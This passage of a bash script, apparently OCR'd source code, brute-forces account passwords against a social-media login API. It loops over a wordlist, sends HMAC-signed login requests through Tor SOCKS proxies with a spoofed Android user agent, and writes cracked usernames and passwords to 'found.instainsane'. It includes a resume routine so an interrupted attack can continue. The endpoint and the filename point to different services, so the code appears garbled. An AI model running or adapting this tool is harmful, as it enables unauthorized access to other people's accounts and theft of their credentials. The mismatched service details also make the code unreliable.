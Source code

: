let counter3++

printf "\e[1;77mTrying pass (%s/%s)\e[0m: \"%s\"\n" $countpass $count_pass $pass

{(trap '' SIGINT && var=$(curl --socks5-hostname 127.0.0.1:9053 -d "ig_sig_key_version=4&signed_body=$hmac.$data" -s --user-agent 'User-Agent: "Snapchat 10.26.0 Android (18/4.3; 320dpi; 720x1280; Xiaomi; HM 1SW; armani; qcom; en_US)"' -w "\n%{http_code}\n" -H "$header" "https://i.Snapchat.com/api/v1/accounts/login/" | grep -o "logged_in_user\|challenge\|many tries\|Please wait" | uniq ); if [[ $var == "challenge" ]]; then printf "\e[1;92m \n [*] Password Found: %s\n [*] Challenge required\n" $pass; printf "Username: %s, Password: %s\n" $user $pass >> found.instainsane ; printf "\e[1;92m [*] Saved:\e[0m\e[1;77m found.instainsane \n\e[0m"; rm -rf nottested.lst; kill -1 $$ ; elif [[ $var == "logged_in_user" ]]; then printf "\e[1;92m \n [*] Password Found: %s\n" $pass; printf "Username: %s, Password: %s\n" $user $pass >> found.instainsane ; printf "\e[1;92m [*] Saved:\e[0m\e[1;77m found.instainsane \n\e[0m"; rm -rf nottested.lst; kill -1 $$  ; elif [[ $var == "Please wait" ]];  then echo $pass >> nottested.lst ; elif [[ $var == "" ]]; then echo $pass >> nottested.lst ; fi; ) } & done; pid3=$! ; # wait $!;

let startline+=20
let endline+=20

done
}


bf4resume() {

count_pass=$(wc -l $wl_pass | cut -d " " -f1)
while [ $counter4 -lt $turn ]; do

IFS=$'\n'
startresume=$(grep -n -x "$pass" "$wl_pass" | cut -d ":" -f1) 
startresume1=$((startresume+1))
IFS=$'\n'
for pass in $(sed -n ''$startresume1','$(($token+endline))'p' $wl_pass); do

header='Connection: "close", "Accept": "*/*", "Content-type": "application/x-www-form-urlencoded; charset=UTF-8", "Cookie2": "$Version=1" "Accept-Language": "en-US", "User-Agent": "Snapchat 10.26.0 Android (18/4.3; 320dpi; 720x1280; Xiaomi; HM 1SW; armani; qcom; en_US)"'

data='{"phone_id":"'$phone'", "_csrftoken":"'$var2'", "username":"'$user'", "guid":"'$guid'", "device_id":"'$device'", "password":"'$pass'", "login_attempt_count":"0"}'
ig_sig="4f8732eb9ba7d1c8e8897a75d6474d4eb3f5279137431b2aafb71fafe2abe178"
IFS=$'\n'
countpass=$(grep -n -x "$pass" "$wl_pass" | cut -d ":" -f1)
hmac=$(echo -n "$data" | openssl dgst -sha256 -hmac "${ig_sig}" | cut -d " " -f2)
useragent='User-Agent: "Snapchat 10.26.0 Android (18/4.3; 320dpi; 720x1280; Xiaomi; HM 1SW; armani; qcom; en_US)"'


let counter4++
printf "\e[1;77mTrying pass (%s/%s)\e[0m: \"%s\"\n" $countpass $count_pass $pass

{(trap '' SIGINT && var=$(curl --socks5-hostname 127.0.0.1:9054 -d "ig_sig_key_version=4&signed_body=$hmac.$data" -s --user-agent 'User-Agent: "Snapchat 10.26.0 Android (18/4.3; 320dpi; 720x1280; Xiaomi; HM 1SW; armani; qcom; en_US)"' -w "\n%{http_code}\n" -H "$header" "https://i.Snapchat.com/api/v1/accounts/login/" | grep -o "logged_in_user\|challenge\|many tries\|Please wait" | uniq ); if [[ $var == "challenge" ]]; then printf "\e[1;92m \n [*] Password Found: %s\n [*] Challenge required\n" $pass; printf "Username: %s, Password: %s\n" $user $pass >> found.instainsane ; printf "\e[1;92m [*] Saved:\e[0m\e[1;77m found.instainsane \n\e[0m"; rm -rf nottested.lst; kill -1 $$ ; elif [[ $var == "logged_in_user" ]]; then printf "\e[1;92m \n [*] Password Found: %s\n" $pass; printf "Username: %s, Password: %s\n" $user $pass >> found.instainsane ; printf "\e[1;92m [*] Saved:\e[0m\e[1;77m found.instainsane \n\e[0m"; rm -rf nottested.lst; kill -1 $$  ; elif [[ $var == "Please wait" ]]; then  echo $pass >> nottested.lst ; elif [[ $var == "" ]]; then echo $pass >> nottested.lst ; fi; ) } & done; pid4=$! ; # wait $!;
